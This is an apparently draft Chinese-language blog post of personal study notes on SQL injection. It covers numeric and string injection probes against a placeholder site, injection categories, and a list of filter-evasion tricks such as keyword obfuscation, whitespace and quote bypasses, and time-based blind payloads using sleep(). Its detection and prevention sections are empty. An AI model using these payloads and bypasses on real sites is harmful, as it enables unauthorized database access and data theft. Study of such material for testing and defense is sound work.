 Title: SQL注入记录
Date: 2017-05-22 13:20
Modified: 2017-05-22 13:20
Category: 安全
Tags: SQLI
Slug: G11
Authors: nJcx
Summary: 记录一下学习SQL注入的心路
Status: draft

#### 原理

没有过滤敏感字符，绑定变量，导致攻击者可以通过sql灵活多变的语法，构造精心巧妙的语句，不择手段，达成目的，或者通过系统报错，返回对自己有用的信息。

#### 数字型注入

http://www.test.com/test.php?id=8

我们通过get 传入 id为8的参数，如果对id 没有过滤，那么id就可能传入任何参数，底层的对应的SQL如下

select * from table where id=8

先加个 '，看看是否正常，

```bash

http://www.test.com/test.php?id=8 and 1=1
select * from table where id=8 and 1=1


http://www.test.com/test.php?id=8 and 1=2
select * from table where id=8 and 1=2

```
看看加上 and 1=2 是否正常，如果出现异常，可能出现SQL注入漏洞

#### 字符型注入
http://www.test.com/test.php?user=njcx

select * from table where user='njcx'

字符型注入跟数字型注入的区别在字符型注入需要闭合,参数变了，"njcx' and 1=1--"

当然，也可以出现双闭合

```bash

http://www.test.com/test.php?user=njcx' and 1=1-- 
select * from table where user='njcx' and 1=1--'

http://www.test.com/test.php?user=njcx' and 1=2-- 
select * from table where user='njcx' and 1=2--'
```
看看加上 and 1=2 是否正常，如果出现异常，可能出现SQL注入漏洞，
#### 注入方式
SQL注入的分类

- 联合查询
- 基于错误回显
- sql盲注（布尔和时间）

SQL注入方式的分类

- get 和 post

- 基于user-agent

- 基于feferer

- 基于cookie

#### 检测


#### 绕过

（下面部分内容来自互联网）

- 对于关键字的绕过
	- 注释符绕过:uni/**/on se/**/lect
	- 大小写绕过:UniOn SeleCt
	- 双关键字绕过:ununionion seselectlect
	- <>绕过:unio<>n sel<>ect(有些网站为了防止xss注入,所以过滤了<>)
	- 对于and,or的绕过其实还可以尝试一下&&,||,异或注入

- 对特殊字符的绕过
	- 对空格的绕过:

			两个空格代替一个,用tab键代替空格
	
			/**/ %20 %09 %0a
	
	
			利用空格绕过:很多关键字都可以写成带括号的形式select(),or()
	
			特殊函数中的空格绕过:ascii(mid(xxfrom(1))) ascii(substr(xxfrom(1)))
	- 对单引号的绕过:
			
			 十六进制绕过(针对需要输入表名的时候 'user'=>0x7573657273)
			 substr(x,1,1),mid(x,1,1)=>substr(x from 1 for 1) mid(x from 1 for 1)

	- 对逗号的绕过：
	
			limit 0,1=> limit 0 offset 1
			
			join(本身是用来连接两个表单的,所以join一定是要放在from后面放表单的位置):
			
			union select 1,2 =>
			
			union select * from (select 1)a join (select 2)b
			
			select case when (条件) then (代码1) else (代码2) end 可以对应上if(条件,代码1,代码2)
			
			if(substring((select user()) from 1 for 1)='e',sleep(5),1)
			
			可以变为
			
			select case when substring((select user()) from 1 for 1)='e' then sleep(5) else 1 end

	- 等号的绕过:

			利用<>(即不等于号)绕过
			
			利用like绕过
			
			利用greatest()绕过(greatest(a,b)返回较大的那个数)
			
			?id=' or 1 like 1
			
			?id=' or 1 <> 1
			
			?id=' union select greatest(substr((select user()),1,1),95)


#### 防范